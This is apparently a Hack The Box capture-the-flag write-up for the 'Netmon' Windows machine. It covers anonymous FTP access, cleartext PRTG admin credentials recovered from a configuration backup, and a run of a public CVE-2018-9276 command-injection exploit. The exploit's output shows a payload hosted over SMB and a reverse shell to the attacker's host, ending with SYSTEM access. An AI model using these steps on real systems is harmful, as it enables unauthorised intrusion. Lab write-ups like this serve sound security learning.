


# Netmon - Easy

Target IP: **10.129.61.50**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.230.176 -v```

We see a lot in the output.

```
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -29s, deviation: 0s, median: -29s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-10-10T23:14:51
|_  start_date: 2026-10-10T23:12:28
```

FTP anon authentication is allowed. Let's explore that.

Inside the desktop of the ```Public``` user, we can find the user flag.

```
ftp> ls
229 Entering Extended Passive Mode (|||49753|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1195 PRTG Enterprise Console.lnk
02-03-19  12:18AM                 1160 PRTG Network Monitor.lnk
10-10-26  07:13PM                   34 user.txt
226 Transfer complete.
```

We can proceed to get the user flag.

## Root Flag

We got the flag but we don't have remote access of the machine. Let's explore further. Inside the directory where we found the user flag, there are some ``.lnk``` files mentioning PRTG.

In our scan results, port 80 is running PRTG Network Monitor version 18.1.37.13946.

Navigating to it, we see the log in page for this.



Since we had access to the filesystem through ftp, we can grab the configuration file for PRTG. This is located at ```C:\ProgramData\Paessler\PRTG Network Monitor```.

We can see the configuration files.

```
10-10-26  07:23PM       <DIR>          Configuration Auto-Backups
10-10-26  07:23PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
10-10-26  07:23PM       <DIR>          Logs (Web Server)
10-10-26  07:23PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
10-10-26  07:23PM              1641474 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
```

Inside ```.old.bak```, we can see cleartext credentials for the admin user.

```
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

Logging in directly with this password doesn't work, but since we found this on a backup file, maybe we can change the year. This worked, changing 2018 to 2019.

We are in the admin page.



This version is vulnerable to CVE-2018-9276, a command injection vulnerability. Here is a [PoC](https://raw.githubusercontent.com/A1vinSmith/CVE-2018-9276/refs/heads/main/exploit.py) we can try.

After running the exploit, we get ```NT AUTHORITY\SYSTEM```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-mreywiodsx]─[~]
└──╼ [★]$ ./exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.15.194 --lport 4444 --user prtgadmin --password PrTg@dmin2019

/home/htb-mp-3199654/./exploit.py:259: SyntaxWarning: invalid escape sequence '\{'
  print(event + "Hosting payload at [\\\\{}\{}]".format(lhost, shareName))
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.129.230.176:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.15.194 LPORT=4444 OUTPUT=/tmp/ldgmdgax.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/htb-mp-3199654/./exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/htb-mp-3199654/./exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.15.194\VBUVEAWE]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.15.194:4444 for the reverse shell!]
Listening on 0.0.0.0 4444
[*] Incoming connection (10.129.230.176,50066)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
Connection received on 10.129.230.176 50067
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
